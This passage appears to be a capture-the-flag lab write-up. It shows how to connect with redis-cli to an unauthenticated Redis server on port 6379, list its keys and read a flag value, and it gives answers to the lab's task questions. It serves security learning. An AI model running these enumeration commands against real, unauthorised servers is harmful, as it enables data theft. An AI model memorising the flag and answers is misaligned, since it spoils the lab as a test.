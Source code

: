 - selected the cluster at index 0

```
10.129.253.223:6379> SELECT 0
OK
```

- listed all the keys

```
10.129.253.223:6379> KEYS *
1) "temp"
2) "numb"
3) "stor"
4) "flag"
```

- got the flag

```
10.129.253.223:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
```

ANOTHER METHOD

- listed all the keys of the database

```
┌─[birb@parrot]─[~]
└──╼ $redis-cli --scan -h 10.129.253.223
"temp"
"flag"
"numb"
"stor"
```

- got the flag

```
┌─[birb@parrot]─[~]
└──╼ $redis-cli -h 10.129.253.223 get flag
"03e1d2b376c37ab3f5319922053953eb"
```

## Tasks

**Which TCP port is open on the machine?**

=> 6379

**Which service is running on the port that is open on the machine?**

=> redis

**What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database**

=> In-memory Database
